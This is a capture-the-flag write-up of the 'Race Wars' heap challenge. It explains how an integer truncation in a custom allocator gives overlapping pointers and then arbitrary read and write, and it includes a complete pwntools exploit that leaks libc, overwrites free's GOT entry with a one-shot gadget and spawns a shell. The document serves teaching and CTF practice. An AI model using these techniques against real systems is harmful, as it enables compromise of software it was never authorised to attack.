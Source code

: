 # Race Wars

*This challenge was solved by VoidMercy and cts, VoidMercy doing the dynamic reversing and cts doing the static reversing.*

**VoidMercy**: We are given a binary. Its functionality is quite boring. It lets you create tires, select chassis, engine, and transmission. Afterwards, you can modify these, and/or race, in which you always lose.

Lets start with static analysis. The functionality is also quite bland. There are a ton of branches to each of these options, which assigns different values for different chosen options.

However, there is one big thing of interest you find while reversing. It is the function at 0x400bb6, which is called by all four options, to which values are being assigned. Diving into that function, we quickly find that it serves to allocate memory. There are two branches: if the requested size is greater than 0xfff, then it uses malloc() to allocate memory. However, if it is less, then the binary implements its own malloc implementation with posix_memalign. We also find that for the create tires option, we can control the size, and it mallocs size*32, so we have a controlled malloc size.

Now, custom heap implementations and heaps in general are a pain to statically reverse, so I begin dynamic analysis. Breaking at 0x400b66 and 0x400bb2, I can view the malloc size request and returned pointer. I tried viewing the heap and structs for any overflows and OOBs, to no avail. Then I tried putting in garbage values for tire malloc sizes, and found that huge values causes malloc to return 0x0 and errors out. However, when putting in huge values, I also noticed that, since it gets multiplied by 32, the bits greater than 32 bits get truncated off. So if I can pass in a size of 0x100000000 to malloc, that gets truncated to 0x00000000. I tried entering the tire size 0x100000000/32, and sure enough, the size passed to malloc is 0x0. 

**cts**: Now, a 0x0 allocation might not seem so bad, but this allocator breaks if you pass it a 0x0 allocation! Why? You have to reverse the allocator. For new allocations:
 - Big blocks (0x1000+) are allocated using `malloc` and prepended to a largeblocks linked list. The linked list elements are tags pointing to the blocks so they can be deallocated later, and these tags are allocated on the smallblocks heap.
 - Small blocks heap are allocated **sequentially** with no metadata into bins of size 8196. Once a bin runs out of space, a new bin is allocated using `posix_memalign`.

Suffice it to say, a 0x0 allocation means that the next allocation would lead to the same pointer! Which is exactly what happens when we allocate a transmission. We have found our vulnerability - double pointers.

Here's an idea of how the heap looks on the inside:
```C
struct __attribute__((aligned(8))) HeapListElem
{
  HeapListElem *flink;
  void *block;
};
struct __attribute__((aligned(8))) HeapDestructorCallback
{
  void (__fastcall *funcptr)(void *);
  void *param;
  HeapDestructorCallback *flink;
};
struct __attribute__((aligned(8))) HeapBin
{
  void *pNextFreeLoc;
  uint64_t pEnd;
  HeapBin *flink;
  uint64_t heapIndex;
  uint64_t maxChunkSize;
  HeapBin *pFreeHeap;
  uint64_t field6;
  HeapListElem *largeblocks;
  HeapDestructorCallback *pDestructorCallbacks;
  uint64_t field9;
  char memory[8112];
};
```
(Note: the HeapDestructorCallback list is never used, so it's not an option to overwrite a function pointer.)

**VoidMercy**: So what can we do with this? The modifying transmission function sounds like a great read and write primitive, because it has built in functionalities to do that for us as long as gear size is large enough. So, if the gear size struct is also the same pointer as another struct we control, then we can modify gear size to an extremely large number, and gain arbitrary read/write primitive. The tire struct is perfect for this, since we control 8 bytes through editing tires:

```
printf("modify what?\n\t(1) width\n\t(2) aspect ratio\n\t(3) construction\n\t(4) diameter\nCHOICE: ");
  __isoc99_scanf("%d", &v5);
  if ( v5 == 2 )
  {
    printf("new aspect_ratio: ", &v5);
    __isoc99_scanf("%d", &v6); //two byte read
    printf("tires are now %d aspect\n", (unsigned __int8)v6);
    *(_WORD *)(a1 + 2) = v6; //two byte write
    goto LABEL_16;
  }
```

So we create a tire and transmission that point to the same malloced chunk. Then we modify tire struct to a huge number by changing all four of its options to -1 (aka 0xffff). Then we can view the transmission, and find that we have arbitrary read and write.

```
tires are now 255 thick
Your Tires are: 655356553565535
modify your car
pick:
        (1) tires
        (2) chassis
        (3) engine
        (4) transmission
        (5) buy new part
        (6) RACE!
CHOICE: 4
choice 4
ok, you have a transmission with 18446744073709551615 gears
which gear to modify?
```

With this, we can leak the heap addresses near the transmission struct, and I found one at offset 0x17. With this we can calculate the address of our transmission struct, and gain read to everything.

Next I leaked libc by reading from putsgot, calculated address of one shot gadget, then overwrote free GOT with it, triggered free, and got a shell.

```python
from pwn import *

def modtire(c, v):
	p.recvuntil('CHOICE: ')
	p.sendline('1')
	p.recvuntil('CHOICE: ')
	p.sendline(str(c))
	p.recvuntil(': ')
	p.sendline(str(v))
def twocomp(val):
	return 0xffffffffffffffff - val + 1
def pow_hash(challenge, solution):
    return hashlib.sha256(challenge.encode('ascii') + struct.pack('<Q', solution)).hexdigest()
def check_pow(challenge, n, solution):
    h = pow_hash(challenge, solution)
    return (int(h, 16) % (2**n)) == 0
def solve_pow(challenge, n):
    candidate = 0
    while True:
        if check_pow(challenge, n, candidate):
            return candidate
        candidate += 1

p = remote('2f76febe.quals2018.oooverflow.io', 31337)
p.recvuntil("Challenge: ")
x=p.recvline()[:-1]
p.recvuntil("n: ")
y=int(p.recvline()[:-1])
p.recv()
ans=solve_pow(x,y)
p.sendline(str(ans))

p.recvuntil('CHOICE: ')
p.sendline('1')
p.sendline(str(0x100000000/32))

p.recvuntil('CHOICE: ')
p.sendline('4')
p.recvuntil('? ')
p.sendline('0')

p.recvuntil('CHOICE: ')
p.sendline('2')
p.sendline('1')

p.recvuntil('CHOICE: ')
p.sendline('3')

modtire('1', '-1')
modtire('2', '-1')
modtire('3', '-1')
modtire('4', '-1')

add = ''
for x in range(0x17, 0x17+8):
	p.recvuntil('CHOICE: ')
	p.sendline('4')
	p.recvuntil('? ')
	p.sendline(str(x + 1))
	p.recvuntil(' is ')
	add += '%02x' % (int(p.recvuntil(',')[:-1]))
	p.sendline('0')
	p.sendline('0')
heapleak = u64(add.decode('hex'))
struct = heapleak - 0x10

distance = struct - 0x603020 #putgot
add = ''
for x in xrange(distance, distance-8, -1):
	p.recvuntil('CHOICE: ')
	p.sendline('4')
	p.recvuntil('? ')
	p.sendline(str(twocomp(x)))
	p.recvuntil('is')
	add += '%02x' % (int(p.recvuntil(',')[:-1]))
	p.sendline('0')
	p.sendline('0')
puts_addr = u64(add.decode('hex'))
print "struct:" + hex(struct)
print 'puts:' + hex(puts_addr)
libc_base = puts_addr - 0x6f690 #put offset
oneshot = libc_base + 0x4526a #oneshot offset
print "oneshot:" + hex(oneshot)
asdf = 0
distance = struct - 0x603018 #free got
for x in xrange(distance, distance - 8, -1):
	p.recvuntil('CHOICE: ')
	p.sendline('4')
	p.recvuntil('? ')
	p.sendline(str(twocomp(x)))
	p.recvuntil('is')
	p.sendline(str(ord(p64(oneshot)[asdf])))
	p.sendline('1')
	asdf += 1

p.recvuntil('CHOICE: ')
p.sendline('6')

p.interactive()
```

## Flag: OOO{4 c0upl3 0f n1554n 5r205 w0uld pull 4 pr3m1um 0n3 w33k b3f0r3 r4c3 w4rz}
